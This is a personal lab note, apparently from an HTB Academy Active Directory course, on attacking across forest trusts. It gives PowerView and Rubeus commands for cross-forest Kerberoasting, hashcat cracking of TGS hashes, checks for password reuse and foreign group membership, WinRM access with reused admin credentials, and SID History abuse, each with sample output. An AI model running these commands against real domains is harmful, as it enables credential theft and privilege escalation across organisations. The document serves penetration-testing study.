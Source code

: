 
## Cross-Forest Kerberoasting
Kerberos attacks (Kerberoasting, ASREPRoasting) work across trusts based on direction. Inbound/bidirectional trusts allow attacks for foothold/escalation. Can't escalate in current domain? Get TGS from trusted domain, crack hash for admin user with cross-domain privileges.

### Enumerate Accounts with SPNs in Target Domain (PowerView)
Use `Get-DomainUser` to find users with SPNs:
```
Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName
```
Output example:
```
samaccountname
--------------
krbtgt
mssqlsvc
```
Check if target account (e.g., mssqlsvc) is in Domain Admins:
```
Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc | select samaccountname,memberof
```
Output example:
```
samaccountname memberof
-------------- --------
mssqlsvc       CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
```

### Perform Kerberoasting Across Trust (Rubeus)
Use `/domain` flag for target domain:
```
.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
```
Output includes hash for cracking (e.g., via Hashcat). Cracked hash = full admin in target domain via bidirectional trust.

Notes:
- Rubeus version: v2.0.2
- Targets AES/RC4 hashes; force RC4 with /ticket or /tgtdeleg if needed.
- Search LDAP for kerberoastable users.

### Crack TGS Hash with Hashcat
```bash
┌──(root㉿kali)-[/home/z3tssu/HTB/AD/Cross_Trust_Domain]
└─# mousepad TGS_mssqlsvc.txt         
                                                                  
┌──(root㉿kali)-[/home/z3tssu/HTB/AD/Cross_Trust_Domain]
└─# hashcat -m 13100 -w 3 -O TGS_mssqlsvc.txt /usr/share/wordlists

```

## Admin Password Re-Use & Group Membership
In bidirectional trusts (same company admins), check password reuse for high-priv accounts (e.g., Administrator, Domain/Enterprise Admins). Own Domain A? Test hashes/cleartext on matching users in Domain B.

Also, check foreign group membership: Users from Domain A in groups in Domain B (only Domain Local Groups allow external principals). E.g., Domain A admin in Domain B's Administrators group = instant access.

### Enumerate Foreign Group Members (PowerView)
```
PS C:\htb> Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL
```
Output example:
```
GroupDomain             : FREIGHTLOGISTICS.LOCAL
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=FREIGHTLOGISTICS,DC=LOCAL
MemberDomain            : FREIGHTLOGISTICS.LOCAL
MemberName              : S-1-5-21-3842939050-3880317879-2865463114-500
MemberDistinguishedName : CN=S-1-5-21-3842939050-3880317879-2865463114-500,CN=ForeignSecurityPrincipals,DC=FREIGHTLOGIS
                          TICS,DC=LOCAL
```

Convert SID to name:
```
PS C:\htb> Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500
```
Output: `INLANEFREIGHT\administrator`

### Verify Access (WinRM via Enter-PSSession)
Use creds from Domain A on Domain B host:
```
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator
```
Inside session:
```
[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> whoami
inlanefreight\administrator

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> ipconfig /all
```
Output shows successful auth to target DC. Quick win post-domain takeover if bidirectional trust and in-scope.

## SID History Abuse - Cross Forest
Abuse during user migration across forests if SID Filtering disabled. Add privileged SID from Forest A to user in Forest B = retains admin rights in Forest A while in Forest B.

Scenario: User migrated (e.g., jjones from INLANEFREIGHT.LOCAL to CORP.LOCAL due to merger). No SID filtering = SID History persists, granting cross-forest access (e.g., shares, ACEs).

Diagram notes: Trusts between INLANEFREIGHT.LOCAL and CORP.LOCAL; migrated user keeps SIDs/resources.
![[Pasted image 20251009190542.png]]